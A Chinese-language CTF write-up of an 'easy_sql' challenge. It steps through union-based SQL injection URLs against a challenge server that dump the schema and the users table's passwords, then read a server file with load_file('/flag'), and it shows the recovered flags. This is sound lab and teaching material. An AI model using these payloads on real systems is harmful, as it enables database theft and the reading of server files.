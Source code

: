 ## easy_sql

### 判断注入类型（字符型注入/数字型输入）

```
http://hwserver.bi0x.cn:8302/?id=1 and 1=1#
```

发现是数字型注入

![](https://files.catbox.moe/98ejkt.png)

### 判断字段数

```
http://hwserver.bi0x.cn:8302/?id=1 order by 3#
```

![](https://files.catbox.moe/itx43y.png)

![](https://files.catbox.moe/huvihu.png)

### 判断注入点

```
http://hwserver.bi0x.cn:8302/?id=0 union select 1,2,3#
```

![](https://files.catbox.moe/1se64p.png)

1 2 3都是注入点

### 爆库名

```
http://hwserver.bi0x.cn:8302/?id=0 union select database(),2,3#
```

![](https://files.catbox.moe/j4u8yf.png)



库名是`ctf` , 接下来爆表名

### 爆表名

```
http://hwserver.bi0x.cn:8302/?id=0 union select group_concat(table_name),2,3 from information_schema.tables where table_schema=database()#
```

 表名如下：`emails,referers,uagents,users `

![](https://files.catbox.moe/37x67f.png)



### 爆字段名

```
http://hwserver.bi0x.cn:8302/?id=0 union select group_concat(column_name),2,3 from information_schema.columns where table_name='users'#
```

这里选择爆`users`表的字段，因为一般来说用户名密码才是数据库中最重要的资料。

![1618735710786](C:\Users\12751\AppData\Roaming\Typora\typora-user-images\1618735710786.png)

这里爆出字段名如下：` id,username,password,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS `

### 爆字段内容

```
http://hwserver.bi0x.cn:8302/?id=0 union select group_concat(password),2,3 from users#
```

这里爆出来flag：` flag{this_is_easy_SQL} `

然后得到另一个线索：` flag in /flag `

![](https://files.catbox.moe/9o40cr.png)



也就是说另外一个flag藏在数据库以外，需要使用mysql的函数去读取服务器文件。

### 读取文件

```
http://hwserver.bi0x.cn:8302/?id=0 union select load_file('/flag'),2,3#
```

flag：` flag{th1s_1s_a_l1tt1e_h4rd_Sq1_f1ag} `

完结撒花~

喜欢背景可以收藏下面这张图片：

![](https://files.catbox.moe/wetsf7.jpg)